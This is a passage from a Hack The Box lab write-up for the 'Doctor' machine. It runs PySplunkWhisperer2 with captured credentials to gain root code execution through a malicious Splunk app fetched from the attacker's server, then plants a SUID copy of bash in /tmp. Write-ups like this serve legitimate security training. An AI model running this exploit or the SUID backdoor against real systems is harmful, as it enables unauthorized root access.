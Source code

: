 ```console

```
### Running the exploit
```console
local@local:~/Documents/htb/boxes/doctor$ python PySplunkWhisperer2_remote.py --host 10.129.19.165 --port 8089 --username shaun --password Guitar123 --payload "touch /dev/shm/exploit" --lhost 10.10.14.141
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpLziy1A.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.141:8181/
10.129.19.165 - - [28/Sep/2020 23:37:22] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```
It looked like the exploit worked. 

### Checking /dev/shm for new file
```console
shaun@doctor:~$ ls -la /dev/shm
total 0
drwxrwxrwt  2 root root   60 Sep 28 19:52 .
drwxr-xr-x 18 root root 4000 Sep 28 11:11 ..
-rw-------  1 root root    0 Sep 28 19:52 exploit
shaun@doctor:~$ 
```
The file a file with filename **exploit** is created in _/dev/shm_ as root. So the exploit clearly works.

## Getting a shell as root
```console
local@local:~/Documents/htb/boxes/doctor$ python PySplunkWhisperer2_remote.py --host 10.129.19.165 --port 8089 --username shaun --password Guitar123 --payload "cp /bin/bash /tmp/bash && chmod 4777 /tmp/bash" --lhost 10.10.14.141
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpYeO1dV.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.141:8181/
10.129.19.165 - - [28/Sep/2020 23:40:03] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```
Here I copied the usual **/bin/bash** binary to **/tmp/bash** and changed the file permission to **4777**, which means that it can be executed by everyone on the box and when executed it will be executed as root as the SUID bit is enabled on the binary.
### Checking /tmp 
```console
shaun@doctor:~$ ls -la /tmp/bash
-rwsrwxrwx 1 root root 1183448 Sep 28 19:55 /tmp/bash
```
The file is created and if we look at the files permissions, the SUID bit is enabled too.
